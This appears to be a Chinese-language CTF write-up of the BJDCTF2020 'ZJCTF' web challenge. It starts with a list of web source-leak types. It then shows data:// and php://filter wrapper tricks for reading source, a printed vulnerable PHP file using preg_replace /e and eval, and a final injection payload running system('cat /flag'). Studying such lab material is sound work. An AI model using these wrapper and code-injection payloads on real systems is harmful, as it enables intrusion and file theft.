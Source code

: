 **常见的Web源码泄露：**

- • git源码泄露
- • svn源码泄露
- • DS_Store 文件泄露
- • 网站备份压缩文件泄露
- • Web-INF/Web.xml 泄露
- • CVS泄露
- • hg源码泄漏
- • Bazaar/bzr泄露
- • SWP 文件泄露

很纠结要不要复习一遍web入门的基础题目 还是直接开始综合题 之前的基础部分都差不多快要忘记了

## [BJDCTF2020] ZJCTF，不过如此

![image-20241129224416484](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241129224418213-261306008.png)

file_get_contents 伪协议

题目要求读字符串 data伪协议读数据流

复习一下data协议

```
data:[<mime type>][;charset=<charset>][;base64],<encoded data>
```

data协议头 mime类型 有text/plain image/jpeg  第三部分是编码 charset=US-ASCII 后面的base64可加不加 data作为文本传参 

include 文件包含

题目提示读本地文件 php伪协议

php://filter用于读取源码：
php://input用于执行php代码

// ?text=data://text/pain,I have a dream&file=php://filter/convert.base64-encode/resource=next.php

解码源码

![image-20241129225723785](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241129225725309-1782004867.png)

<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}

如果参数过了正则匹配 当传参过后把re参数的值变为str的值 这个str的值是getflag  然后会把参数分次交给complex参数运行 cmd作为参数get—flag 

存在 /e修正符 preg_replace函数会将第二个参数当作php语句来执行  \\\1 后向引用  这里的后向引用要使用双引号 因为双引号内的函数不会被执行和替换 这个\\本身在php中指的是第一个子匹配项 也就是 ${phpinfo()} 这样会执行这个函数 

\S 匹配非空字符 

这样子就相当于是 带入了preg_replace里面执行re=str这个值 

preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str);		// 原句

preg_replace('/(' .* ')/ei','strtolower("\\1")',{${phpinfo()}});	// 输入后

但这个.在这题里面是非法字符 要换成\s 编程匹配非空字符 这个\\1本身函数中会匹配两次 所以要两个{}

{{$getFlag()}}  

payload

// next.php?\S*=${getflag()}&cmd=system('cat /flag');

![image-20241129232141689](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241129232143777-370328594.png)